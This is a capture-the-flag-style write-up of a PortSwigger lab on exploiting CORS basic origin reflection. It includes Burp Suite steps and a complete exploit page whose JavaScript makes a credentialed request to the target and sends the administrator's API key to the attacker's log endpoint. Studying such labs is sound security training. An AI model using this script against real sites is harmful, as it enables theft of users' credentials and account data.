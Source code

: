 # Cross-origin resource sharing (CORS)

> Cross-origin resource sharing (CORS) is a browser mechanism which enables controlled access to resources located outside of a given domain. It extends and adds flexibility to the same-origin policy (SOP). However, it also provides potential for cross-domain attacks, if a website's CORS policy is poorly configured and implemented. CORS is not a protection against cross-origin attacks such as cross-site request forgery (CSRF).

## Lab 1 : CORS vulnerability with basic origin reflection

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

### Sol :

* Log in and access the account page with the `wiener:peter` credentials.

* Go to `http history` and observe that out key is retrieved via an request to `/accountDetails` and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/7996a544-582b-4347-aeb8-9d12fe6e9b6c)

* Send it to the Burp Repeater

* Add header `Origin` and give a example website to check the response

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/1aa6a719-0d7d-487c-9cf7-d01edcf86d7d)

* Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.
* Click on `Go to exploit server` in the lab.
* Give the below script in the body box by giving lab ID of yours.

      <html>
      <body>
          <h1>Hello World!</h1>
          <script>
              var xhr = new XMLHttpRequest();
              var url = "https://ac211f241efad3f2c045255700630006.web-security-academy.net"
              xhr.onreadystatechange = function() {
                  if (xhr.readyState == XMLHttpRequest.DONE){
                      fetch("/log?key=" + xhr.responseText)
                  }
              }

              xhr.open('GET', url + "/accountDetails", true);
              xhr.withCredentials = true;
              xhr.send(null)
          </script>
        </body>
      </html>
      
 * Click `View exploit`. Observe that the exploit works - you have landed on the log page and your API key is in the URL
* Go back to the exploit server and click `Deliver exploit to victim`
* Click `Access log`, retrieve and submit the victim's API key to complete the lab.
* Thus, the lab is solved

